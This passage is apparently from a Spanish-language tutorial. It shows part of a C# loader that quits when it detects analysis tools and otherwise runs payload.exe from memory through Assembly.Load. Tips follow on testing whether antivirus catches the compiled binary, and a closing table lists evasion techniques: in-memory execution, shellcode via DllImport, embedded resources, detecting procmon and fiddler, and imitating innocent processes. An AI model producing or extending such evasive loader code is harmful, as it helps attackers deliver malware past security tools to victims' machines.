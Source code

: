 ```csharp
            }
        }

        return false;
    }

    static void Main()
    {
        if (IsAnalysisEnvironment())
        {
            Console.WriteLine("Entorno sospechoso detectado. Saliendo.");
            return;
        }

        byte[] payload = File.ReadAllBytes("payload.exe");
        Assembly asm = Assembly.Load(payload);
        MethodInfo entry = asm.EntryPoint;
        object instance = asm.CreateInstance(entry.Name);
        entry.Invoke(instance, new object[] { new string[] { } });
    }
}
```

🎯 Este programa:

1. Verifica si hay herramientas de análisis abiertas.
2. Si no las detecta, ejecuta un payload desde memoria.

---

### 📚 Recomendaciones para practicar

1. **VM con Windows Defender activado**
2. Usa herramientas para ver si el AV lo detecta:

   - [Any.Run](https://any.run/)
   - [JoeSandbox](https://www.joesandbox.com/)

3. Analiza el archivo compilado con:

   - PEStudio
   - Detect It Easy
   - VirusTotal (opcional y con precaución)

---

### 🧠 En resumen

| Técnica                 | Descripción                                           |
| ----------------------- | ----------------------------------------------------- |
| `Assembly.Load`         | Ejecutar código sin escribir en disco                 |
| `DllImport` + Shellcode | Cargar y ejecutar código en memoria                   |
| Recursos incrustados    | Ocultar binarios dentro del EXE                       |
| Evitar análisis         | Detectar herramientas como `procmon`, `fiddler`, etc. |
| Engaño visual           | Imitar procesos conocidos o inocentes                 |

---